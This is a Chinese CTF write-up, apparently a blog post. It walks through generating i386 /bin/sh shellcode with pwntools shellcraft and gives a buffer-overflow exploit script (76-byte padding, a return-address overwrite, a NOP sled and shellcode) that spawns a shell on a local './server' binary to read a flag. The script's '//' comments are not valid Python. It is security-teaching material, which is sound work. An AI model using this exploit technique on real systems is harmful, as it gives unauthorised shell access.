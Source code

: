 ![在这里插入图片描述](https://img-blog.csdnimg.cn/93c22031244149609e450bfcfbc8ccc3.png)

第一行可以看到程序是i386架构的，然后是linux二进制可执行文件，最后我们要生成sh交互命令行

```
shellcraft -l   //列出shellcode列表
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b512ed8095764e178edb86e4057fc326.png)

找到相符条件的shellcode，然后生成
```
shellcraft i386.linux.sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e479c76abfc54a809827664ecdea337f.png)

这里生成是以十六进制展现的，我们可以让他转换为汇编语言，好让我们可以看一下shellcode汇编代码
```
shellcraft i386.linux.sh -f a
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/39530c5bdeaa40c58b8334c5f69106b7.png)

这些就是我们生成的shllcode代码了，我们可以写一个pwntools脚本来完成利用
# nop指令
NOP指令，简单解释就是覆盖地址后程序不执行任何操作
# pwntools脚本
程序内跳转函数的地址


![在这里插入图片描述](https://img-blog.csdnimg.cn/9f3bbac17a344719b221b28e85c1e96f.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/233dfd02d49b4bbc91925ac9f6e4135a.png)



无法打开flag文件，因为没有权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/342c7c1c85a2453da89ebe24a21a773d.png)

```
from pwn import *   //导入pwntools模块

exe = './server'   //要破解的文件名
elf = context.binary = ELF(exe, checksec=False)   //自动获取程序详细信息，如架构，操作系统
io = process('./server')   //启动程序
padding = 76   //覆盖eip原本的返回地址
shellcode = asm(shellcraft.sh())   //导入shellcode
payload = flat(
    asm('nop') * padding,   //覆盖eip原本的返回地址
    0x08049192,    //程序内跳转函数的地址
    asm('nop') * 16,   //不清楚堆栈需要溢出多少才能达到shellcode的地址，覆盖为nop指令，不执行任何操作，直到shellcode的位置
    shellcode
)   //构造paylaod
io.sendlineafter(b':',payload)  //发送payload
io.interactive()  //获得交互
```
运行脚本



![在这里插入图片描述](https://img-blog.csdnimg.cn/30fb7e59c1774ee68da8660c9f48e676.png)

成功拿到flag


